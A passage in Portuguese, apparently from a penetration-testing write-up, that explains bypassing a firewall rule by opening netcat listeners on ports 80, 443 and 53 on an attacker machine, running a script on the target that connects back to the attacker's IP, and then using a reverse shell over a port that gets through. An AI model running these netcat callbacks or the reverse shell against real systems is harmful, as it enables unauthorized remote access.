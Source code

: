 
---

![](https://i.imgur.com/mL1oh6J.png)

Para poder burlar essa rule, podemos ultilizar o bypass:

![](https://i.imgur.com/4MkRdur.png)

Maquina atacante:
Irei executar um script para que possa abrir algumas possíveis portas que estejam aberta na maquina alvo.
Script:
```bash
#!/bin/bash
echo "Abrindo portas..."
nc -vnlp 80&
sleep 2
nc -vnlp 443&
sleep 2
nc -vnlp 53&
echo "Portas abertas"
netstat -nlpt
```

Maquina alvo:
Irei executar também um script na maquina do alvo, só que nesse script o alvo ira tentar conectar nas portas que foram aberta pelo atacante.
Script:
```bash
#!/bin/bash
echo "Testando portas..."
nc -vn {ip_do_atacante 80&
nc -vn {ip_do_atacante 443&
nc -vn {ip_do_atacante 53&
```

Com a conexão bem sucedida iremos utilizar o reverse shell, abrindo uma das portas que houve conexão na maquina do atacante, logo em seguida o alvo ira se conectar a essa portar passando a sue shell.